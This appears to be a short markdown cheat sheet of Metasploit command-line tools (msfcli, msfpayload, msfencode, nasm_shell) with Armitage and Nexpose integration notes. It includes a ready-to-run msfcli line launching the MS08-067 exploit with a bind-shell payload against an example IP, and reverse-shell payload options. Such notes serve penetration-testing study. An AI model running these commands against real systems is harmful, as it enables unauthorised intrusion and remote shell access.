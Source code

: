 ## msfcli(main: test/dev module)
  ~~~
  ## show Options - use "O" option
  # msfcli windows/smb/ms08_067_netapi O

  ## show available payload - use "P" option
  # msfcli windows/smb/ms08_067_netapi RHOST=192.168.0.1 P

  ## exploit - use "E" option
  # msfcli windows/smb/ms08_067_netapi RHOST=192.168.0.1 PAYLOAD=windows/shell/bind_tcp E
  ~~~

## msfpayload
  ~~~
  ## show utility options
  # msfpayload -h

  ## show payload options
  # msfpayload windows/shell_reverse_tcp O
  ~~~
  
## msfencode
  ~~~
  ## show lits of encoder
  # msfencode -l
  ~~~

## NASM shell
  ~~~
  ## show opecode
  # ./tools/nasm_shell.rb
  nasm > jmp esp
  00000000 FFE4     jmp esp
  ~~~

## Combination with other Programs
  - Armitage(GUI for Metasploit)
    ~~~
    # armitage
    ~~~

  - Nexpose
    - Ref  
      https://blog.rapid7.com/2014/06/11/kali-for-ya/

    - Commands
      ~~~
      load nexpose
      nexpose_connect [Username]:[Password]@[Server IP]:[Port] <ssl-confirm>
      # ex) nexpose_connect user:pass@localhost:3780 ok
      nexpose_scan [Target IP]
      # ex) nexpose_scan localhost
      # show scan result
      hosts -c address,svcs,vulns,workspace
